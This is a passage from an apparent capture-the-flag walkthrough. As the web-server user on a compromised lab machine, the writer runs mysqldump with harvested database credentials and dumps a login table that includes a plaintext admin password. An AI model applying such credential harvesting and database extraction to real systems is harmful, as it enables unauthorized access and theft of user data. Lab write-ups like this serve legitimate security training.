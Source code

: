 ```bash
| id       | int(6)       |                   | NO   | PRI |         | auto_increment | select,insert,update,references |         |
| username | varchar(50)  | latin1_swedish_ci | NO   | UNI |         |                | select,insert,update,references |         |
| password | varchar(100) | latin1_swedish_ci | NO   |     |         |                | select,insert,update,references |         |
+----------+--------------+-------------------+------+-----+---------+----------------+---------------------------------+---------+
```
The mysql binary is missing so I can't interact with the database through that, but there are other means of getting the data out.
```bash
www-data@ubuntu:/usr/bin$ mysqldump --user=theseus --password=iamkingtheseus Magic login
<-user=theseus --password=iamkingtheseus Magic login
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
```